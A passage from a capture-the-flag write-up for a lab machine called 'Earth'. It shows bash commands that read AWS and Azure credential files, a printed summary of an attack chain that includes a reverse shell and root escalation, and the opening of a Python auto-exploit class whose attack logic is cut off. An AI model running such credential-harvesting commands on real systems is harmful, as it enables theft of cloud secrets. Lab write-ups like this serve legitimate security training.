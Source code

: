 ```bash

# Cloud credentials (if any)
find / -name ".aws" -o -name ".azure" -o -name ".gcp" 2>/dev/null
cat ~/.aws/credentials 2>/dev/null
cat ~/.azure/credentials 2>/dev/null

echo "=== ATTACK CHAIN COMPLETE ==="
echo "Successfully achieved:"
echo "1. Initial foothold via information disclosure"
echo "2. Command injection exploitation" 
echo "3. Reverse shell establishment"
echo "4. Privilege escalation to root"
echo "5. Flag extraction and system compromise"
```

### Appendix B: Automated Exploitation Script

```python
#!/usr/bin/env python3
"""
Automated CTF Earth Exploitation Script
Educational purposes only - Use in authorized environments
"""

import requests
import base64
import subprocess
import socket
import threading
import time
import argparse
from urllib3.packages.urllib3.exceptions import InsecureRequestWarning

# Disable SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

class EarthExploit:
    def __init__(self, target_ip, attacker_ip):
        self.target_ip = target_ip
        self.attacker_ip = attacker_ip
        self.session = requests.Session()
        self.session.verify = False
        self.credentials = None
        
    def banner(self):
        print("""
╔══════════════════════════════════════════════════════════════╗
║                    CTF EARTH AUTO-EXPLOIT                   ║
║                  Educational Use Only                       ║
╚══════════════════════════════════════════════════════════════╝
        """)
    
    def log(self, message, level="INFO"):
        timestamp = time.strftime("%H:%M:%S")
        colors = {
            "INFO": "\033[94m",
            "SUCCESS": "\033[92m", 
            "WARNING": "\033[93m",
            "ERROR": "\033[91m",
            "RESET": "\033[0m"
        }
        print(f"[{timestamp}] {colors.get(level, '')}{level}{colors['RESET']}: {message}")
    
```